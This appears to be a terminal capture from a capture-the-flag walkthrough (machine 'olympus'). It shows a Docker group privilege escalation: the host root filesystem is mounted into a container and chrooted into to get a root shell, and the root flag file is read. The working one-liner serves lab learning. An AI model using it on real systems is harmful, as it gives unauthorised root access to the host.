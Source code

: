 ```null
prometheus@olympus:/$ docker run -it -v /:/pwned/ olympia chroot /pwned/ bash
root@32af1c268b09:/# ls
bin  boot  dev	etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt	proc  root  run  sbin  srv  sys  tmp  usr  var	vmlinuz  vmlinuz.old
root@32af1c268b09:/# cd root/
root@32af1c268b09:~# ls
root.txt
root@32af1c268b09:~# cat root.txt 
b3474f547f8261bfa21ce91d7ba59f1d
```